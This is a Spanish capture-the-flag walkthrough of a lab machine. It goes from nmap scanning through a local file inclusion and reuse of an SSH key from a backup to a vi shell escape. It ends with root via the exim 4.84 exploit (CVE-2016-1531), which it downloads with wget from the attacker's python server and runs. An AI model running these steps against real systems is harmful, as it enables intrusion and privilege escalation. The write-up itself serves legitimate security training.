## Reconocimiento
### Nmap
Primero vamos a escanear la red para ver que IP tenemos que atacar:

```shell
nmap -sn 192.168.1.0/24
```



Escaneamos la maquina para ver que puertos tiene abiertos;

```shell
nmap -p- --open --min-rate 5000 -Pn -n 192.168.1.115
```

>Nota:
>
>**-p-**: El guion después de `-p` indica a `nmap` que debe escanear todos los puertos desde el 1 hasta el 65535
>
>**--open**: Filtra los resultados para mostrar solo los puertos abiertos, ignorando los puertos cerrados y filtrados
>
>**-sS**: El escaneo SYN es un tipo de escaneo que envía paquetes SYN y analiza las respuestas para determinar el estado de los puertos
>
>**--min-rate 5000**: Configura `nmap` para enviar al menos 5000 paquetes por segundo, acelerando el escaneo
>
>**-Pn**: Omite la etapa de ping para determinar si un host está activo, asumiendo que todos los hosts están activos. Esto es útil para escanear hosts que pueden estar configurados para no responder a pings
>
>**-n**: Evita la resolución de nombres DNS, acelerando el escaneo ya que no se espera a que se resuelvan los nombres de los hosts


Puertos abiertos:

| PORT | PROTOCOL | SERVICE |
| ---- | -------- | ------- |
| 22   | TCP      | ssh     |
| 80   | TCP      | http    |
| 3306 | TCP      | mysql   |
| 5355 | TCP      | llmnr   |

Vamos a ver la web por el puerto 80:


En El apartado About podemos ver que la url redirige a un archivo del sistema, podriamos intentar un LFI:


## LFI

Vamos a intentar apuntar al archivo `/etc/passwd`:



Podemos verlo!

Vamos a poner la verlo en modo view-source para ver si podemos leerlo mejor:



Podemos ver que en la ultima linea hay un usuario que apunta a un script, vamos a intentar verlo:


El script nos dice se pueden coger los backups mediante tftp, por lo tanto vamos a intentar hacer eso mismo, el archivo esta en /backups/backup.tar;



Ya tenemos el archivo con los backups vamos a descomprimirlo y ver lo que hay dentro:


Vamos a ver el `/home`



Vemos unas claves que seguramente sean de ssh, vamos a ir probando cada una:


Con la `id_key4` nos detecta que el la key privada, vamos a darle permisos:

```shell
chmod 600 id_key4
```


Ahora que hemos entrado nos da un panel que nos deja hacer varias cosas:

| Main menu         |
| ----------------- |
| Directory listing |
| Change directory  |
| Edit file         |
| Who's online?     |
| WWW               |
| Telnet            |
| Ping              |
|                   |
| Exit              |

Vamos a intentar editar un archivo:



Vemos que se nos abre vi como editor, vamos a intentar ponernos una shell

Vamos a buscar en [GTFOBIS](https://gtfobins.github.io/) 



Vamos a intentarlo:

`:set shell=/bin/bash`

`:shell`






Vamos a exportarnos una xterm para poder tener movimiento libre:

```shell
export TERM=xterm
```

## Escalada de privilegios

Vamos a buscar binarios con permisos `SUID` 

```shell
find / -perm -4000 2>/dev/null
```


Vamos a buscar ese `exim 4.84` en exploitdb:

```shell
searchsploit exim 4.84
```


### CVE-2016-1531 local root exploit

Vamos a pasarnos el script y intentar escalar privilegios:

```shell
searchsploit -m linux/local/39535.sh
```



Con el exploit en nuestra maquina vamos a pasarla a la maquina victima mediante un servidor en python:

```python
python3 -m http.server 80
```

En la máquina víctima vamos al directorio `tmp` y ejecutamos este comando:

```shell
wget 192.168.1.7/39535.sh
```

Ahora le damos permiso de ejecución:

```shell
chmod +x 39535.sh
```

Y lo ejecutamos:



Ya podemos ver la flag:


Ya está!